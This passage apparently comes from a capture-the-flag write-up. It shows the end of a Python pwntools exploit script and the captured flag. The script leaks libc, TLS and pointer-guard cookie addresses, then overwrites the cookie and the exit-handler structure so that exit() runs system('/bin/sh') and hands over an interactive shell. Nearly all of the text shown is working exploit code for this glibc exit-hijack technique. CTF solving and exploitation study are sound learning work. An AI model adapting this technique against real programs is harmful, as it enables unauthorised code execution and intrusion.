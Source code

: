 ```python
        else:
            tls = libc.address + 0x30f000
        cookie = tls + 0x770
        initial = libc.address + 0x21bf00
    leak("Libc leak", libc_leak)
    leak("Libc base address", libc.address)
    leak("TLS address", tls)
    leak("Cookie address", cookie)
    leak("Initial address", initial)
    with log.progress("Overwrite cookie and initial address to hijack exit"):
        write(cookie, 0)
        write(initial+24, libc.sym['system']<<17)
        write(initial+24 + 8, ns(libc, b"/bin/sh\0"))
    # debug()
    menu(5)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ITSEC{Rintaro-kun_watashi_wa_Waguri_Kauruko_desu,_soshite_anata_wa_Tsumigi_Rintaro_desu}`